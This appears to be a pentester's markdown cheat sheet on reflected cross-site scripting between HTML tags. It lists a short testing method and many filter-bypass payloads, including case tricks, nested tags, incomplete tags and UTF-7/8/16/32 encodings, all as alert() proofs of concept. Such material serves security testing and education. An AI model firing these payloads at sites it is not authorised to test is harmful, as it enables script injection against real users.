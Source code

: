 ## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### methodolgy 
- find reflected input between HTML tags
- try to insert a html tag if it is blocked
   - check if it WAF or Web Based Security  
   - try every possible tag you can use the help of [portswigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   - try [Bypass techniques](#bypass)
- make a poc 


### Bypass
i will focus on bypasses that introduce HTML tags


#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with removed chars 
```html
<sCR<script>iPt>alert(1)</SCr</script>IPt>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
#### Bypass ">" using nothing

```html
<svg onload=alert(1)//
```
#### Bypass using UTF-7
```html
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-  ===  <img src="1" onerror="alert(1)" />
```

#### Bypass using UTF-8
```html
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9

```

#### Bypass using UTF-16
```html
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00  ===  <svg/onload=alert()>

utf-16 encoded then url encoded 
```

#### Bypass using UTF-32
```html
%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E  ===  <svg/onload=alert()>

utf-32 encoded then url encoded 

```
